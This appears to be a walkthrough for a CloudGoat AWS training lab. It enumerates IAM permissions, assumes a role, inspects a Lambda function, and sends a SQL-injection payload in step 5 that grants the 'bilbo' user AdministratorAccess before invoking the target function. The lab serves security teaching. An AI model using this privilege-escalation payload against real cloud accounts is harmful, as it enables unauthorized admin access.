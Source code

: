 1. Get permissions for the 'bilbo' user.

    ```bash
    # This command will give you the ARN & full name of you user.
    aws --profile bilbo --region us-east-1 sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile bilbo --region us-east-1 iam list-user-policies --user-name [your_user_name]
    # This command will list all of your permissions.
    aws --profile bilbo --region us-east-1 iam get-user-policy --user-name [your_user_name] --policy-name [your_policy_name]
    ```
2. List all roles, assume a role for privesc.

    ```bash
    # This command will list all the roles in your account, one of which should be assumable. 
    aws --profile bilbo --region us-east-1 iam list-roles
    # This command will get you credentials for the cloudgoat role that can invoke lambdas.
    aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name [whatever_you_want_here]

    ```
3. List lambdas to identify the target lambda.

    ```bash
    # This command will show you two cloudgoat functions. One function is the target function that you need
    # to invoke in order to finish this scenario. The other function can apply a predefined set of
    # aws managed policies to users (in reality it can only modify the bilbo user).
    aws --profile assumed_role --region us-east-1 lambda list-functions
    ```
4. Look at the lambda source code. You should see the database structure in a comment, 
as well as the code that is handling input parameters. It's vulnerable to an injection, and 
we'll see what an exploit looks like in the next step.

    ```bash
    # This command will return a bunch of information about the lambda that can apply policies to bilbo.
    # part of this information is a link to a url that will download the deployment package, which
    # contains the source code for the function.
    aws --profile assumed_role --region us-east-1 lambda get-function --function-name [policy_applier_lambda_name]
    ```
5. Invoke the role applier lambda function, passing the name of the bilbo user and the injection payload. 

    ```bash
    aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload '{"policy_names": ["AdministratorAccess'"'"' --"], "user_name": [bilbo_user_name_here]}' out.txt
    ```
6. Now that Bilbo is an admin, use credentials for that user to invoke the target lambda. 

    ```bash
    # This command invokes the target lambda
    aws --profile bilbo --region us-east-1 lambda invoke --function-name cg-lambda_injection_privesc_cgid05fabeanxc-target_lambda output.txt
    # This reads the response from the lambda
    cat output.txt
    ```